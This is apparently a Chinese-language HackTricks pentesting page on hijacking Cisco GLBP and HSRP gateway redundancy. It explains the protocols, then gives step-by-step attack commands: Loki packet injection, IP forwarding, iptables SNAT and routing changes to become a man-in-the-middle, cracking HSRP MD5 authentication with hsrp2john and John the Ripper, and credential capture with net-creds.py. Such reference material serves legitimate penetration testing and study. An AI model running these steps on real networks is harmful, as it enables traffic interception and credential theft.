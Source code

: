 # GLBP & HSRP 攻击

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或**关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

<figure><img src="https://pentest.eu/RENDER_WebSec_10fps_21sec_9MB_29042024.gif" alt=""><figcaption></figcaption></figure>

{% embed url="https://websec.nl/" %}

## FHRP 劫持概述

### FHRP 概览
FHRP 旨在通过将多个路由器合并为单个虚拟单元来提供网络鲁棒性，从而增强负载分配和容错能力。思科系统推出了该套件中的重要协议，如 GLBP 和 HSRP。

### GLBP 协议概述
思科的创造，GLBP，在 TCP/IP 协议栈上运行，利用端口 3222 上的 UDP 进行通信。GLBP 组中的路由器每隔 3 秒交换一次“hello”数据包。如果路由器在 10 秒内未发送这些数据包，则被视为离线。但是，这些计时器不是固定的，可以进行修改。

### GLBP 操作和负载分配
GLBP 通过使用单个虚拟 IP 和多个虚拟 MAC 地址实现跨路由器的负载分配。在 GLBP 组中，每个路由器都参与数据包转发。与 HSRP/VRRP 不同，GLBP 通过几种机制提供真正的负载平衡：

- **主机相关负载平衡：** 为主机保持一致的 AVF MAC 地址分配，对于稳定的 NAT 配置至关重要。
- **轮询负载平衡：** 默认方法，在请求主机之间交替分配 AVF MAC 地址。
- **加权轮询负载平衡：** 根据预定义的“权重”指标分配负载。

### GLBP 中的关键组件和术语
- **AVG（活动虚拟网关）：** 负责为对等路由器分配 MAC 地址的主要路由器。
- **AVF（活动虚拟转发器）：** 指定用于管理网络流量的路由器。
- **GLBP 优先级：** 决定 AVG 的度量标准，从默认值 100 开始，范围在 1 到 255 之间。
- **GLBP 权重：** 反映路由器上的当前负载，可以手动调整或通过对象跟踪进行调整。
- **GLBP 虚拟 IP 地址：** 为所有连接设备提供网络的默认网关。

在交互方面，GLBP 使用保留的组播地址 224.0.0.102 和 UDP 端口 3222。路由器每隔 3 秒传输“hello”数据包，如果在 10 秒的持续时间内错过一个数据包，则被视为非操作。

### GLBP 攻击机制
攻击者可以通过发送优先级值最高（255）的 GLBP 数据包成为主要路由器。这可能导致 DoS 或 MITM 攻击，允许拦截或重定向流量。

### 使用 Loki 执行 GLBP 攻击
[Loki](https://github.com/raizo62/loki_on_kali) 可以通过注入优先级和权重设置为 255 的数据包执行 GLBP 攻击。攻击前的步骤包括使用诸如 Wireshark 等工具收集虚拟 IP 地址、认证存在和路由器优先级值等信息。

攻击步骤：
1. 切换到混杂模式并启用 IP 转发。
2. 确定目标路由器并检索其 IP。
3. 生成一个恶意的 Gratuitous ARP。
4. 注入一个恶意的 GLBP 数据包，冒充 AVG。
5. 为攻击者的网络接口分配一个次要 IP 地址，镜像 GLBP 虚拟 IP。
6. 实施 SNAT 以完全可见流量。
7. 调整路由以确保通过原始 AVG 路由器继续访问互联网。

通过遵循这些步骤，攻击者将自己定位为“中间人”，能够拦截和分析网络流量，包括未加密或敏感数据。

演示所需的命令片段如下：
```bash
# Enable promiscuous mode and IP forwarding
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1

# Configure secondary IP and SNAT
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE

# Adjust routing
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
### 使用net-creds.py或类似工具来捕获和分析流经受损网络的数据，可以监视和拦截流量。

### HSRP劫持的被动解释及命令详细信息

#### HSRP概述（热备份路由器/冗余协议）
HSRP是思科专有协议，旨在实现网络网关冗余。它允许将多个物理路由器配置为单个逻辑单元，共享一个IP地址。这个逻辑单元由主路由器管理，负责流量导向。与GLBP不同，GLBP使用优先级和权重等指标进行负载平衡，HSRP依赖单个活动路由器进行流量管理。

#### HSRP中的角色和术语
- **HSRP活动路由器**：充当网关的设备，管理流量流向。
- **HSRP备用路由器**：备用路由器，准备在活动路由器故障时接管。
- **HSRP组**：一组路由器合作形成一个单一的弹性虚拟路由器。
- **HSRP MAC地址**：分配给HSRP设置中逻辑路由器的虚拟MAC地址。
- **HSRP虚拟IP地址**：HSRP组的虚拟IP地址，充当连接设备的默认网关。

#### HSRP版本
HSRP有两个版本，HSRPv1和HSRPv2，主要区别在于组容量、多播IP使用和虚拟MAC地址结构。该协议利用特定的多播IP地址进行服务信息交换，每3秒发送一次Hello数据包。如果在10秒内未收到数据包，则假定路由器处于非活动状态。

#### HSRP攻击机制
HSRP攻击涉及通过注入最大优先级值强制接管活动路由器的角色。这可能导致中间人攻击。攻击前的基本步骤包括收集有关HSRP设置的数据，可以使用Wireshark进行流量分析。

#### 绕过HSRP身份验证的步骤
1. 将包含HSRP数据的网络流量保存为.pcap文件。
```shell
tcpdump -w hsrp_traffic.pcap
```
2. 使用hsrp2john.py从.pcap文件中提取MD5哈希。
```shell
python2 hsrp2john.py hsrp_traffic.pcap > hsrp_hashes
```
3. 使用John the Ripper破解MD5哈希。
```shell
john --wordlist=mywordlist.txt hsrp_hashes
```

**使用Loki执行HSRP注入**

1. 启动Loki以识别HSRP广告。
2. 将网络接口设置为混杂模式并启用IP转发。
```shell
sudo ip link set eth0 promisc on
sudo sysctl -w net.ipv4.ip_forward=1
```
3. 使用Loki瞄准特定路由器，输入破解的HSRP密码，并执行必要的配置以冒充活动路由器。
4. 获得活动路由器角色后，配置您的网络接口和IP表以拦截合法流量。
```shell
sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```
5. 修改路由表以通过以前的活动路由器路由流量。
```shell
sudo route del default
sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```
6. 使用net-creds.py或类似实用程序从拦截的流量中捕获凭据。
```shell
sudo python2 net-creds.py -i eth0
```

执行这些步骤将使攻击者能够拦截和操纵流量，类似于GLBP劫持的过程。这突显了冗余协议如HSRP的漏洞以及对强大安全措施的需求。
